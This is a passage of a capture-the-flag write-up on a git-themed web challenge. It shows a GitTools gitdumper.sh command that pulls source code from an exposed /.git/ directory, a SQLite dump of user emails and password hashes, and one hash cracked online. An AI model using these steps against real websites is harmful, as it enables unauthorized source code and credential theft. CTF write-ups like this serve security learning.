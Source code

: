 Checking the **/admin.html** shows a login page but we still don't have the credentials.
![](/images/login.png)

Checking out the /.git/ - Not found error
```
Cannot GET /.git/
```

From here, I was not really sure about what to do. It's obvious that the challenge is related to **git** as challenge name indicates. I have no proper idea and was not able to remember that source code can even be retrived without directory listing enabled.

Then my friend [**@koimet**](https://twitter.com/k0imet_), who was well aware about this, used the tool from **internetwache** called [**GitTools**](https://github.com/internetwache/GitTools) to dump the source code of the website (easy-peasy).

He used the following command:

```
./gitdumper.sh http://cgau.sdc.tf/.git/ ./<folder-name>
```

Once he got the source, searching for important stuff revealed **users.db** sqilte file with emails and password hashes

Quickly, reading the data using sqlite - 

```
sqlite> .tables
users
sqlite> SELECT * FROM users;
1|aaron@cgau.sdc.tf|e04efcfda166ec49ba7af5092877030e
2|chris@cgau.sdc.tf|c7c8abd4980ff956910cc9665f74f661
3|yash@cgau.sdc.tf|b4bf4e746ab3f2a77173d75dd18e591d
4|rj@cgau.sdc.tf|5a321155e7afbf0cfacf1b9d22742889
5|shawn@cgau.sdc.tf|a8252b3bbf4f3ed81dbcdcca78c6eb35
sqlite> 
```

Cracking the first hash using [hashes.com](https://hashes.com), we get the password which is `weakpassword`
